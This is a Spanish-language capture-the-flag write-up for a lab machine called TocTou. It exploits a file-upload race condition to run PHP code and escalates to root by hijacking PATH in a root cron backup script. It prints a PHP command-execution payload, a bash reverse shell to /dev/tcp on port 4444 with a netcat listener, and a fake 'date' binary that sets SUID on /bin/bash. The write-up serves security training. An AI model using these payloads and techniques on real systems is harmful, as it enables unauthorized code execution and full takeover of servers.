



## Table of contents

## Enumeración

La máquina TocTou tiene la ip **172.17.0.2**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open --min-rate 5000 -sCV -n -Pn 172.17.0.2

Host is up (0.000010s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.69 ((Debian))
|_http-server-header: Apache/2.4.69 (Debian)
|_http-title: Zumba Files \xE2\x80\x94 Env\xC3\xADa archivos en segundos
```
 
### Puerto 80 (Web)

Entramos con el navegador a la IP de la máquina. Tenemos un sistema llamado **Zumba Files** que permite la subida de archivos. 


Enumeramos subdirectorios empleando **ffuf**.

```bash
ffuf -c -u "http://172.17.0.2/FUZZ" \
-w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
-e .php,.html,.txt,.js

uploads                 [Status: 301, Size: 350, Words: 21, Lines: 10, Duration: 0ms]
index.html              [Status: 200, Size: 3070, Words: 477, Lines: 73, Duration: 84ms]
assets                  [Status: 301, Size: 349, Words: 21, Lines: 10, Duration: 0ms]
archivos                [Status: 301, Size: 351, Words: 21, Lines: 10, Duration: 1ms]
```

Subimos una imagen de prueba y esta se ubica en el subdirectorio `/uploads` que permite un directory listing.



Vamos a crear un archivo con la doble extension, `.jpeg.php`, y a tratar de subirlo.

```bash
echo "<?php system('id');?>" > shell.jpeg.php
```

```bash
curl -X POST 'http://172.17.0.2/upload.php' \
  -H 'Cookie: zbx_sessionid=e00cc6dc133deb1fa6d68c38b2055e19' \
  -F 'file=@shell.jpeg.php;type=image/jpeg;filename=shell.jpeg.php'

{"ok":false,"error":"Solo se permiten im\u00e1genes (PNG, JPG, GIF o BMP)."}   
``` 

El servidor nos devuelve el error de que solo acepta imágenes, así que vamos a usar la imagen de prueba que subimos antes para generar el contenido de nuestro `shell.jpeg.php`

```bash
head -n 5 cat.jpeg > shell.jpeg.php 
echo '<?php system("id");?>' >> shell.jpeg.php
```

De esta forma, tenemos las primeras líneas de un archivo jpeg y posteriormente, el código de php. Subimos este nuevo archivo.

```bash
curl -X POST 'http://172.17.0.2/upload.php' \
  -H 'Cookie: zbx_sessionid=e00cc6dc133deb1fa6d68c38b2055e19' \
  -F 'file=@shell.jpeg.php;type=image/jpeg;filename=shell.jpeg.php'

{"ok":false,"error":"El an\u00e1lisis detect\u00f3 contenido potencialmente peligroso. Archivo rechazado."}  
```

El mensaje del servidor ha cambiado. El endpoint `upload.php` emplea una función para validar el contenido del archivo y en el caso de detectar código de php bloquea su subida.

Pero hay algo interesante, durante la ejecución de la petición con **curl** para subir el archivo la respuesta no es inmediata, se produce un delay. Este puede deberse a la función de validación del contenido del archivo.

Repetimos la petición con **curl** de subida del archivo y accedemos rápidamente a `/uploads` para comprobar su contenido.



Vemos que nuestro archivo `shell.jpeg.php` está en el directorio, esto confirma que durante la validación del contenido del archivo, este se ubica temporalmente en ese directorio. Una vez terminada la validación, nuestro archivo es eliminado.


## Explotación
### Race Condition

Tenemos una **race condition** que nos permite apuntar a un archivo php que subimos al servidor durante el periodo de tiempo que el endpoint tarda en analizar su contenido.

Volvemos a ejecutar la petición con **curl** de subida del archivo y en otra pestaña de la terminal ejecutamos otra petición apuntando a nuestro archivo en el directorio uploads.

Primero:

```bash
curl -X POST 'http://172.17.0.2/upload.php' \
  -H 'Cookie: zbx_sessionid=e00cc6dc133deb1fa6d68c38b2055e19' \
  -F 'file=@shell.jpeg.php;type=image/jpeg;filename=shell.jpeg.php'
```

Segundo:

```bash
curl -s "http://172.17.0.2/uploads/shell.jpeg.php" --output data
```

Revisamos el archivo data y confirmamos la ejecución de nuestro código php.

```bash                                                                                                                        
cat data
����JFIF���     


"" $(4,$&1'-=-157:::#+?D?8C49:7


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Generamos un nuevo archivo que ejecutará una reverse shell.

```bash
head -n 5 cat.jpeg > shell.jpeg.php
echo '<?php system("bash -c \"bash -i >& /dev/tcp/172.17.0.1/4444 0>&1 \"");?>' >> shell.jpeg.php
```

Nos ponemos en escucha con **Netcat**.

```bash
nc -nlvp 4444
``` 

Y repetimos las peticiones anteriores, primero la subida del archivo y rápidamente en otra terminal la petición al archivo php.

Primero:

```bash
curl -X POST 'http://172.17.0.2/upload.php' \
  -H 'Cookie: zbx_sessionid=e00cc6dc133deb1fa6d68c38b2055e19' \
  -F 'file=@shell.jpeg.php;type=image/jpeg;filename=shell.jpeg.php'
```

Segundo:

```bash
curl -s "http://172.17.0.2/uploads/shell.jpeg.php" 
```

Obtenemos una reverse shell como el usuario **www-data**


## Escalada de Privilegios
### Root

Encontramos un script de bash en el directorio **/opt/zumba**

```bash
www-data@0f6ab538dbda:/$ ls -la /opt/zumba/
total 16
drwxr-xr-x 1 root     root     4096 Oct 27 22:02 .
drwxr-xr-x 1 root     root     4096 Oct 27 22:02 ..
-rwxr-xr-x 1 root     root      755 Oct 27 22:00 backup.sh
drwxrwxr-x 1 www-data www-data 4096 Oct 27 22:02 bin
```

```bash
www-data@0f6ab538dbda:/$ cat /opt/zumba/backup.sh 
#!/bin/bash
#
# Zumba Files — copia de seguridad periódica de la carpeta de subidas.
# Pensado para ejecutarse desde cron. Comprime /var/www/html/uploads en
# /var/backups para poder recuperar envíos recientes si algo va mal.
#
# NOTA del equipo: cargamos nuestro directorio de utilidades propio delante
# del PATH para poder usar versiones "tuneadas" de las herramientas de backup.
export PATH=/opt/zumba/bin:$PATH

STAMP=$(date +%Y%m%d-%H%M%S)
cd /var/www/html/uploads || exit 0

# Empaquetamos el contenido actual de la carpeta de subidas.
tar -czf "/var/backups/uploads-${STAMP}.tar.gz" . 2>/dev/null

# Rotación simple: conservamos solo las 5 copias más recientes.
ls -1t /var/backups/uploads-*.tar.gz 2>/dev/null | tail -n +6 | xargs -r rm -f
```

Este script **backup.sh** nos dice que se ejecuta de forma periodica por el usuario **root**. Además, observamos que se modifica la varibale de entorno **path** añadiendo al principio el directorio `/opt/zumba/bin`. De esta manera, se prioriza la ejecución de los archivos de ese directorio.

Como el usuario **www-data** es el dueño del directorio, creamos en él un archivo **date** que le de permisos SUID a la bash. 
De esta forma, cuando el **backup.sh** se ejecute y modifique el **path** del usuario **root**, en lugar de usar el binario legímito, usará el que nosotros hemos creado.

```bash
echo 'chmod u+s /bin/bash' > /opt/zumba/bin/date && chmod +x /opt/zumba/bin/date
```

Esperamos un poco y la bash obtiene permisos SUID. Ejecutamos unas bash privilegiada y somos **root**.

```bash
www-data@0f6ab538dbda:/$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1298416 Jul 12 16:58 /bin/bash
www-data@0f6ab538dbda:/$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# ls -la /root
total 20
drwx------ 1 root root 4096 Oct 27 22:33 .
drwxr-xr-x 1 root root 4096 Oct 29 19:38 ..
lrwxrwxrwx 1 root root    9 Oct 27 22:33 .bash_history -> /dev/null
-rw-r--r-- 1 root root  607 Jul 17 17:05 .bashrc
-rw-r--r-- 1 root root  132 Jul 17 17:05 .profile
drwx------ 2 root root 4096 Oct 27 22:02 .ssh
```